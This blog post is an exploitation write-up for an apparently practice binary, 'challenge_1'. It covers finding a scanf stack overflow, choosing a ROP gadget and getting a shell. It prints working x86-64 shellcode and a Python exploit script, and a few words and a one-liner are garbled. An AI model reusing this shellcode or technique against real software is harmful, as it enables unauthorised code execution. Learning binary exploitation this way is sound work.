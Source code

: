 ```yaml
---
layout: post
title: "Hacking a simple binary"
date: 2023-11-19 16:27:00 +0200
categories: Binary-Exploitation Exploit-Development
---
```


# Initial setup and enumeration
After downloading the __challenge_1__ executable and modifying the file permissions, I ran the program to see what it does.

![Checking for binary defenses with file.](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/0.png)

![Running the program.](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/1.png)

The program offers three options:
*	Creating a note.
*	Reading all the created notes.
*	Exiting the program.

![Testing functionality in target program.](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/3.png)
 
I proceeded to check for low-hanging fruit; Format string bugs, Buffer Overflows (BoF), etc.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/5.png)

![](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/4.png)

The program seemed to be susceptible to BoF. Next, I proceeded to examine what binary exploit mitigations were in place.


![](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/6.png)

I noted that there was no stack canary, the stack was executable, and no Position Independent Code. This may aid my exploitation attempts at a later stage. Moreover, I decided to leave ASLR enabled on my machine to challenge myself further.

# Reversing
To conduct further investigation, I opened the executable in GDB and Ghidra. On inspection of GDB output, I found that the executable was not compiled with symbols. 

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/1.png)

So, I started from the top, __libc_start_main__. Specifically, as the first parameter of the function is usually the main function, I concluded that it was the best place to start, considering that the binary didn’t seem very large.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/2.png)

From there, it was relatively easy to determine the function which would be called whenever a note was created. Upon inspection of the function in question, the cause of the vulnerability was made clear.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/3.png)

That is, the use of __scanf()__, an unsafe function. As it does no bounds-checking, the bounds of the 206-byte buffer could be written past. Using the payload from before, and a breakpoint on the address of the ret instruction, I was able to confirm that the top of the stack before returning from the function was 0x41 (A). 

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/5.png)

Using the following payload, I was able to confirm that I could control the saved return address: ```python3 -c “print('1\n')+('A'*216)+('C'*8))” > ./test```

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/7.png)

(I previously ran the executable with ```r < test```, so restarting the program in GDB invoked the same piped input in the above screenshot.)
I used 216 A’s in the payload, as it would take 208 bytes to fill every byte of the buffer, and a further 8 to overwrite the saved base pointer.

# Exploitation
As the program was being run on a system with ASLR enabled, the simple stack-based buffer overflow would not work. This meant I would need to use a ROP chain. My first few attempts involved using Ropper to find gadgets in the Libc shared object library, but that did not work as a result of ASLR. The only addresses that did not seem to change with each new instance of the running program were the addresses of the gadgets found at the offsets of the code contained within the __Challenge_1__ binary.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/2.png)

I thought to use the gadget as shown in the above screenshot for a ret2libc-style exploit, but that did not work, as the address of __system()__ would change with each instance of the application being launched.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/3.png)

Then I had the thought to use a gadget that would essentially pop RSP’s value into RIP, such that if I were to place shellcode on the stack, I could execute it by redirecting RIP to it.
There were some gadgets I considered chaining together to achieve this, such as the following;

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/8.png)

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/7.png)

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/6.png)

However, after stepping away for a bit, I found a simple solution which only required a single gadget. I discovered this attack vector by investigating the rest of the code contained within the function.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/91.png)

The contents of the buffer are copied to the address stored at the address stored in RDI (I.e, the first parameter passed to the function). This is likely some variable in the caller function, but I noted that I could use it, nonetheless. In addition, RAX is used as the base register for the copy operation. That would work well with the following gadget I found when using Ropper on the __Challenge_1__ binary:

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/94.png)

I encountered some sort of error when using 0x40110c as the returned address with which I would overwrite the saved return address on the stack. For some reason, the address overwrite would not change the value of the saved address overwrite. However, by changing the last byte of the address, the overwrite would proceed as expected. I managed to solve the problem by ering the gadget address, such that the address used would be of the prior instruction, such that the last byte is anything other than 0x0c.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/95.png)

As the prior instruction was benign in relation to the intention, it would work (I.e because EDI’s value is not crucial to the exploit succeeding, its value being ered would not present any unexpected behavior).
With the attack vector mapped out, I decided to write some shellcode, as it was the only piece of the exploit that was absent.
The result was the following:

```
section .data 
section .bss
section .text

global _start

_start:
    jmp shellString
pwn:
    ; setuid(0) - GG if setuid :)
    xor rax, rax
    xor rdi, rdi
    mov al, 0x69
    syscall

    ; execve("/bin/sh", 0x0, 0x0)
    xor rax, rax
    xor rdx, rdx
    xor rsi, rsi
    xor rcx, rcx
    mov al, 0x3B
    pop rdi
    mov rdi, [rdi]
    push rdi
    push rsp
    pop rdi
    mov BYTE [rdi + 7], cl
    syscall

shellString:
    call pwn
    sh dq "/bin/sh"
```

Finally, the resultant exploit code was as follows:

```
from struct import pack
from os import system

shellcode = b"\xeb\x24\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xc0\x48\x31"
shellcode += b"\xd2\x48\x31\xf6\x48\x31\xc9\xb0\x3b\x5f\x48\x8b\x3f\x57\x54\x5f\x88"
shellcode += b"\x4f\x07\x0f\x05\xe8\xd7\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

return_addr = pack( "<L", 0x401107 )

target = "./challenge_1"
payload = ( b'1\n' ) + shellcode + ( b'A' * 166 ) + return_addr


def main():
    with open( "payload", "wb+" ) as f:
        f.write( payload )

    system( f"(cat payload; printf '\n' ;cat) | {target}" )

if __name__ == "__main__":
    main()
```

When run, I observed that the exploit worked as intended, and I successfully managed to get a shell!

![](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/97.png)





